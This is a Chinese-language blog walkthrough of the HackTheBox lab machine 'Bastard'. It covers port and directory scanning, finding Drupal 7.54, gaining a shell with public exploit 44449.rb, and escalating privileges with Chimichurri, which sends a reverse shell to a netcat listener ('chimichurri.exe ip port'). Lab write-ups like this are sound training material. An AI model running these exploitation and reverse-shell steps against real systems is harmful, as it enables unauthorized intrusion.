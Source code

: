 ```yaml
---
title: Hackthebox::Bastard
date: 2021/12/12
tags: [walkthrough, 渗透测试]
categories: 渗透测试
index_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_13.jpg
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_13.jpg
---
```


# Bastard

- **Bastard是hackthebox上一台难度中等的windows靶机**

### 信息收集

- nmap进行端口扫描，首先扫描前100个容易受到攻击的端口

![0.9](https://herozql.oss-cn-beijing.aliyuncs.com/main/0.9.png)

- nmap进行更细致的扫描

![1](https://herozql.oss-cn-beijing.aliyuncs.com/main/1.png)

- nmap扫描是否存在漏洞

![2](https://herozql.oss-cn-beijing.aliyuncs.com/main/2.png)

- 至此，nmap向我们反馈了有用的信息：

```
80 http
135 msrpc
49154 open unknow
```

- 登录80端口，查看网页信息

![0.1](https://herozql.oss-cn-beijing.aliyuncs.com/main/0.1.png)

- 我们从网页底部可以知道这个CMS是drupal系统，但是我们不知道他的具体版本
- 接下来使用dirsearch进行目录扫描，我尝试使用gobuster 进行扫描，但是结果并能使人满意，可能这次并不适用于用gobuster扫描，有时候最好同时使用这两个工具进行扫描，并且更换不同的字典然后进行多次扫描，可能会费时费力，但是收集有用的信息对我们来说是非常重要的

``` 
dirsearch -u http://10.129.189.21 -x 403 -t 200
```

![0.15](https://herozql.oss-cn-beijing.aliyuncs.com/main/0.15.png)

- 我们发现了许多文件，其中CHAGELOG.txt文件中有这CMS的版本信息，我们可以查看到

![0.2](https://herozql.oss-cn-beijing.aliyuncs.com/main/0.2.png)

- 当然，我也参考了别人的walkthrough，他们扫描出了/rest 文件夹，我试着使用它们的字典以及工具进行扫描，扫描时间实在太长，而且我们完全可以不使用 /rest 文件就能达到我们的渗透目的
- 接下来使用searchsploit 对 drupal 7.54 版本进行扫描

![3.9](https://herozql.oss-cn-beijing.aliyuncs.com/main/3.9.png)



### 漏洞利用

- 使用 44449.rb 脚本

![4](https://herozql.oss-cn-beijing.aliyuncs.com/main/4.png)

![5](https://herozql.oss-cn-beijing.aliyuncs.com/main/5.png)

![4.5](https://herozql.oss-cn-beijing.aliyuncs.com/main/4.5.png)

- 我们得到了一个shell，这是我在参考了许多walkthrough后得到的最快捷的方式

- 查看系统信息

![6](https://herozql.oss-cn-beijing.aliyuncs.com/main/6.png)



### 权限提升

- 下载使用[Chimichurri](https://github.com/mxrmiss/Chimichurri)脚本

![7](https://herozql.oss-cn-beijing.aliyuncs.com/main/7.png)

- 在windows靶机中接收脚本文件

![8](https://herozql.oss-cn-beijing.aliyuncs.com/main/8.png)

- 本地机器nc监听端口
- 靶机上使用脚本文件

```
chimichurri.exe ip port
```

- 查看之前监听的端口(可能一次不一会成功，需要多试几次)

![9](https://herozql.oss-cn-beijing.aliyuncs.com/main/9.png)

- 结束